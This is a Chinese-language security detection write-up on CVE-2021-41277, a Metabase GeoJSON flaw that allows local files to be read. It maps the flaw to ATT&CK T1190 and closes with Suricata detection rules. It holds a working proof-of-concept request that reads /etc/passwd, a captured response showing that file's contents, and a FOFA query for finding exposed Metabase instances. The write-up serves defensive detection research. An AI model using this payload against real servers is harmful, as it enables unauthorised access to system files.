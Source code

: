 # T1190-CVE-2021-41277-Metabase敏感信息泄露漏洞

## 来自ATT&CK的描述

使用软件，数据或命令来利用面向Internet的计算机系统或程序中的弱点，从而导致意外或无法预期的行为。系统的弱点可能是错误、故障或设计漏洞。这些应用程序通常是网站，但是可以包括数据库（例如SQL），标准服务（例如SMB 或SSH）以及具有Internet可访问开放的任何其他应用程序，例如Web服务器和相关服务。根据所利用的缺陷，这可能包括“利用防御防卫”。

如果应用程序托管在基于云的基础架构上，则对其进行利用可能会导致基础实际应用受到损害。这可以使攻击者获得访问云API或利用弱身份和访问管理策略的路径。

对于网站和数据库，OWASP排名前10位和CWE排名前25位突出了最常见的基于Web的漏洞。

## Metabase敏感信息泄露漏洞（CVE-2021-41277）

metabase是一个简单、开源的数据分析平台。

在受影响的版本中，自定义GeoJSON地图（admin->settings->maps->custom maps->add a map）操作缺少权限验证，攻击者可通过该漏洞获得敏感信息。

### 影响版本

影响版本：

```yml
metabase version < 0.40.5
metabase version >= 1.0.0, < 1.40.5
```

FOFA查询语句：app="metabase"

### 测试案例

POC：/api/geojson?url=file:/etc/passwd

### 检测日志

HTTP.log

### 测试复现

```yml
GET /api/geojson?url=file:/etc/passwd HTTP/1.1
Host: *.*.*.*:8888
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:94.0) Gecko/20100101 Firefox/94.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: keep-alive
Upgrade-Insecure-Requests: 1

HTTP/1.1 200 OK
Date: Fri, 26 Nov 2021 12:34:30 GMT
X-Frame-Options: DENY
X-XSS-Protection: 1; mode=block
Last-Modified: Fri, 26 Nov 2021 20:34:30 +0800
Strict-Transport-Security: max-age=31536000
Set-Cookie: metabase.DEVICE=dd8c913f-87fb-483f-9e65-623657a0ca5a;HttpOnly;Path=/;SameSite=Lax;Expires=Sun, 17 Nov 2041 12:06:40 +0800
X-Permitted-Cross-Domain-Policies: none
Cache-Control: max-age=0, no-cache, must-revalidate, proxy-revalidate
X-Content-Type-Options: nosniff
Content-Security-Policy: default-src 'none'; script-src 'self' 'unsafe-eval' https://maps.google.com https://apis.google.com https://www.google-analytics.com https://*.googleapis.com *.gstatic.com   'sha256-lMAh4yjVuDkQ9NqkK4H+YHUga+anpFs5JAuj/uZh0Rs=' 'sha256-sMNbXyc1lLzhHbH/CKs11HIQMnMkZAN2eA99WhJeEC0=' 'sha256-JJa56hyDfUbgNfq+0nq6Qs866JKgZ/+qCq2pkDJED8k='; child-src 'self' https://accounts.google.com; style-src 'self' 'unsafe-inline'; font-src 'self' ; img-src * 'self' data:; connect-src 'self' metabase.us10.list-manage.com ; manifest-src 'self';  frame-ancestors 'none';
Content-Type: application/json
Content-Encoding: gzip
Expires: Tue, 03 Jul 2001 06:00:00 GMT
Transfer-Encoding: chunked
Server: Jetty(9.4.32.v20200930)

root:x:0:0:root:/root:/bin/bash
bin:x:1:1:bin:/bin:/sbin/nologin
daemon:x:2:2:daemon:/sbin:/sbin/nologin
adm:x:3:4:adm:/var/adm:/sbin/nologin
lp:x:4:7:lp:/var/spool/lpd:/sbin/nologin
sync:x:5:0:sync:/sbin:/bin/sync
shutdown:x:6:0:shutdown:/sbin:/sbin/shutdown
halt:x:7:0:halt:/sbin:/sbin/halt
mail:x:8:12:mail:/var/spool/mail:/sbin/nologin
operator:x:11:0:operator:/root:/sbin/nologin
games:x:12:100:games:/usr/games:/sbin/nologin
ftp:x:14:50:FTP User:/var/ftp:/sbin/nologin
nobody:x:99:99:Nobody:/:/sbin/nologin
systemd-bus-proxy:x:999:998:systemd Bus Proxy:/:/sbin/nologin
systemd-network:x:192:192:systemd Network Management:/:/sbin/nologin
dbus:x:81:81:System message bus:/:/sbin/nologin
polkitd:x:998:997:User for polkitd:/:/sbin/nologin
tss:x:59:59:Account used by the trousers package to sandbox the tcsd daemon:/dev/null:/sbin/nologin
sshd:x:74:74:Privilege-separated SSH:/var/empty/sshd:/sbin/nologin
postfix:x:89:89::/var/spool/postfix:/sbin/nologin
chrony:x:997:995::/var/lib/chrony:/sbin/nologin
ntp:x:38:38::/etc/ntp:/sbin/nologin
nscd:x:28:28:NSCD Daemon:/:/sbin/nologin
tcpdump:x:72:72::/:/sbin/nologin
ops:x:1000:1000::/home/ops:/bin/bash
service:x:1001:1001::/home/service:/bin/bash
zabbix:x:1002:1002::/home/zabbix:/sbin/nologin
grafana:x:996:994:grafana user:/usr/share/grafana:/sbin/nologin
mysql:x:995:1003::/usr/local/mysql:/sbin/nologin
saslauth:x:994:76:Saslauthd user:/run/saslauthd:/sbin/nologin
metabase:x:1003:1004::/home/metabase:/bin/bash
redis:x:993:991:Redis Database Server:/var/lib/redis:/sbin/nologin
nginx:x:992:990:Nginx web server:/var/lib/nginx:/sbin/nologin
openvpn:x:991:989:OpenVPN:/etc/openvpn:/sbin/nologin
```

### 检测规则/思路

Suricata规则

```s
alert http any any -> any any (msg:"CVE-2021-41277-rsq";flow:established,to_server;content:"GET";http_method;content:"/api/geojson?url=file:/etc/passwd";http_uri;reference:url,github.com/Seals6/CVE-2021-41277;flowbits:set,first_rsq;noalert;classtype:web-application-attck;sid:1;rev:1;)

alert http any any -> any any (msg:"CVE-2021-41277-Metabase敏感信息泄露漏洞";flow:established,to_client;content:"200";http_stat_code;content:"/bin/bash";http_server_body;flowbits:isset,first_rsq;sid:2;rev:1;)
```

## 备注

本案例仅做防御检测研究，请勿用于非法用途。

## 参考推荐

MITRE-ATT&CK-T1190

<https://attack.mitre.org/techniques/T1190/>

CVE-2021-41277-POC

<https://github.com/Seals6/CVE-2021-41277>

